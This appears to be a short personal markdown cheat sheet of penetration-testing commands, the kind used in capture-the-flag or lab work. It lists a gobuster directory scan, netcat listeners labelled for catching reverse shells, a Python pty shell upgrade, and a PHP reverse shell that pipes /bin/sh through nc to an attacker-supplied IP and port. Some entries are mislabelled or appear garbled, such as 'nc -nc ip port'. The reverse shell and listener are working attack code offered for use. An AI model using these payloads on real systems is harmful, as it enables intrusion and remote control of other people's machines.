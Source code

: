 # Useful Codes
---
## nMap
---



---
## Gobuster
---
- Gobuster Dir

```bash
gobuster dir -u http://$IP --wordlist $Wordlist
```
---
## Hydra
---



---
## Netcat
---
- Listening for incoming RevShells
```sh
nc -lvnp port
```
- Listen for incoming calls
```sh
nc -nc ip port
```

---
## Python
---
- Python Server
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---
## Revshells
---
- PHP Reverse Shell
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>
```

---
## XML Prettyfy
---
```bash
xsltproc all.xml -o all.html (nmap xml to html)
```